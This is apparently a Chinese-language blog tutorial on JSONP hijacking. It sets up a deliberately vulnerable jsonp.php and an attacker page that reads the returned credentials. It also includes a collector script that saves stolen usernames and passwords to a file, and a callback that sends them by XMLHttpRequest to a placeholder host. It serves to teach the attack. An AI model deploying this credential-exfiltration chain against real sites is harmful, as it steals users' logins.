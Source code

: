 > Author:Y4tacker
>
> Last_Updated_Time:2021/3/29

菜鸡分享篇菜鸡内容

# Jsonp劫持学习

## 什么是Jsonp

感觉菜鸟教程和https://www.bejson.com/knownjson/aboutjsonp/写的差不多，我这种菜鸟都能懂

## 实验

劫持原理网上这张图很形象

![](1.png)

首先我们准备一个jsonp.php，简单的写了一个

```
<?php
header('Content-type: application/json');
$jsoncallback = htmlspecialchars($_REQUEST ['jsoncallback']);//获取回调函数名
if(isset($_REQUEST['jsoncallback'])){
    if($_REQUEST['jsoncallback']=="callbackFunction"){
        $json_data='({"id":"1","name":"Y4tacker","password":"Y4tackerTestPasswd"})';
        
    }else {
        $json_data='({"info":"error"})';
    }
    echo $jsoncallback . "(" . $json_data . ")";//输出jsonp格式的数据
}
?>
```

此时我们访问`http://xxxxxx/jsonp.php?jsoncallback=callbackFunction`

会得到返回信息

```
callbackFunction(({"id":"1","name":"Y4tacker","password":"Y4tackerTestPasswd"}))
```

我们此时再准备一个hack.html页面，内容为

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>Test</title>
</head>
<body>
<script type="text/javascript">
function callbackFunction(result)
        {
            alert("username:"+result.name+" password:"+result.password);
        }
</script>
<script type="text/javascript" src="http://xxxxx/jsonp.php?jsoncallback=callbackFunction"></script>
</body>
</html>
```

如果受害者访问这个页面就会有个xss弹窗，弹出关键信息，

当然我们还可以更进一步的利用，讲内容保存到本地服务器，bc.php

```php
<?php
$username=$_GET['username'];
$password=$_GET['password'];
$data="用户名:".$username."密码:".$password.PHP_EOL;
file_put_contents("pwd.txt",$data);
?>
```

再修改上面的callbackFuction，发起一个ajax请求即可，可以用layui这些封装好的，也可以原生内容

```javascript
function callbackFunction(result)
        {
            var username=result.name;
            var password=result.password;
            const requests=new XMLHttpRequest();
            const url="http://xxxxxx/bc.php?username="+username+"&password="+password;
            requests.open("GET",url);
            requests.send();
        }
```

学习完毕